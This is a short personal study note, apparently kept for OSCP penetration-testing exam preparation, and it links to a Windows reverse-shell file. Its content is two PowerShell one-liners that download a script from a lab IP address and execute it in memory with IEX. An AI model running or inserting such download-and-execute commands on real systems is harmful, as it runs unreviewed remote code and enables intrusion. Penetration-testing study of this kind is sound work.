 # powershell commands download and execute script
```
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://192.168.69.69/script.ps1')"
IEX(New-Object Net.WebClient).downloadString('http://192.168.69.69/script.ps1')
```

` zet/20221003151100/README.md `

# Related

- [20221014185658](/zet/20221014185658/README.md) kb file named kb/hacking/windows/windows-reverse-shell.md
- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam
- [20221003151101](/zet/20221003151101/README.md) powershell commands
- ~/kb/hacking/windows/windows-reverse-shell.md

Tags:

    #hacking #windows #windows 
